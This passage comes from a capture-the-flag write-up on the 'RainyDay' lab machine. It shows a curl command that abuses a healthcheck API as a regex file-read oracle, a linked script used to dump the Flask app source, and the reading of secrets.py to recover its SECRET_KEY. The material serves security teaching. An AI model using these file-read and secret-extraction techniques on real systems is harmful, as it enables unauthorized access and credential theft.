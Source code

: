     
    
    oxdf@hacky$ proxychains curl -X POST -d "file=/etc/hostname&type=CUSTOM&pattern=^r.*" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq .result
    true
    

### File Read

The full process of my creating a script to read files here in [this
video](https://www.youtube.com/watch?v=cu_wOqZbCqw):

The final script is available
[here](https://gitlab.com/0xdf/ctfscripts/-/blob/master/htb-
rainyday/file_read.py).

### Website Access as jack

#### Read Web Source

I’ll use the script to read the source for the web application at the path
leaked by `/api/healthcheck` on dev. It’s very slow, but at the top of the
file, after all the other imports, there’s an import of `SECRET_KEY`:

    
    
    #!/usr/bin/python3 
                                            
    import re                     
    from flask import *
    import docker
    import bcrypt                                  
    import socket       
    import string
    from flask_sqlalchemy import SQLAlchemy 
    from os.path import exists
    from hashlib import md5
    from inspect import currentframe, getframeinfo 
    from urllib.parse import urlparse 
    from flask_limiter import Limiter
    from flask_limiter.util import get_remote_address
    
    #secrets.py 
    from secrets import SECRET_KEY
    
    app = Flask(__name__, static_url_path="")
    app.config['SECRET_KEY'] = SECRET_KEY
    app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///sessions/db.sqlite' 
    
    limiter = Limiter( 
    ...[snip]...
    

I’ll read `secrets.py` from the same directory:

    
    
    oxdf@hacky$ python file_read.py /var/www/rainycloud/secrets.py
    SECRET_KEY = 'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67' 
    